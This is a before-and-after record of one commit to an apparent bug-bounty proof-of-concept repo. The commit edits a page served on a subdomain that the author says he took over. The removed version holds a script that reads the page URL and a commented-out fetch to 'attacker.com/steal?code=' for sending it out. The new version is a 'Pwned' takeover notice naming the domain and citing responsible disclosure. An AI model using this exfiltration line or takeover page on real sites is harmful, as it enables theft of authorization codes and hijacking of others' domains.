

Before and after one commit to Mohamed-Elzaghal/superdrug-poc, a plain HTML site: page eservice/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-917 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/eservice/index.html
+++ b/eservice/index.html
@@ -1,13 +1,8 @@
-<!-- eservice/index.html -->
-<!DOCTYPE html>
 <html>
-  <head><title>Owned</title></head>
-  <body>
-    <h1>🔥 Subdomain Takeover Confirmed 🔥</h1>
-    <script>
-      const code = location.href;
-      console.log("Code received:", code);
-      // fetch("https://attacker.com/steal?code=" + encodeURIComponent(code));
-    </script>
+  <head><title>Pwned by Mohamed Elzaghal</title></head>
+  <body style="text-align:center; padding-top: 100px;">
+    <h1 style="color:red;">💥 Subdomain Takeover Success!</h1>
+    <p>This domain (eservice2.aswatson.net) is now under my control.</p>
+    <p>Reported by <strong>Mohamed Elzaghal</strong> for responsible disclosure.</p>
   </body>
 </html>
```
